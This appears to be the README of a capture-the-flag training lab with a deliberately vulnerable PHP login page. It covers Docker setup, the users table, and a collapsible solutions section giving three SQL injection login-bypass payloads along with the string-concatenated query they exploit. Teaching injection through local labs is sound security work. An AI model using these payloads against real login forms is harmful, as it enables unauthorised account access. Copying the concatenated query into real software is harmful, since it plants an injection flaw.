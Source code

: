 # SQL Injection Authentication Bypass CTF Challenge

## Project Structure
```
sql-injection-ctf/
├── Dockerfile
├── docker-compose.yml
├── init.sql
├── index.php
├── login.php
├── dashboard.php
├── logout.php
└── README.md
```

## Quick Start

1. Clone this repository:
```bash
git clone [repository-url]
cd sql-injection-ctf
```

2. Start the containers:
```bash
docker-compose up --build
```

3. Access the challenge:
- Open your web browser
- Navigate to `http://localhost:8000`

## Challenge Details

### Objective
Your goal is to bypass the authentication system and gain access to the admin account to retrieve the flag.

### Default Credentials (Don't use these!)
- Username: test
- Password: test

### Database Structure
```sql
CREATE TABLE users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(50) NOT NULL,
    password VARCHAR(50) NOT NULL,
    flag VARCHAR(100)
);
```

## Solutions

<details>
<summary>Click to reveal solutions (Try solving it first!)</summary>

There are multiple ways to solve this challenge:

1. Basic SQL Injection:
   ```sql
   Username: admin' OR '1'='1' --
   Password: anything
   ```

2. Simpler version:
   ```sql
   Username: admin' --
   Password: anything
   ```

3. Alternative method:
   ```sql
   Username: admin' or '1'='1
   Password: anything
   ```

The vulnerable query:
```sql
SELECT * FROM users WHERE username='$username' AND password='$password'
```
</details>

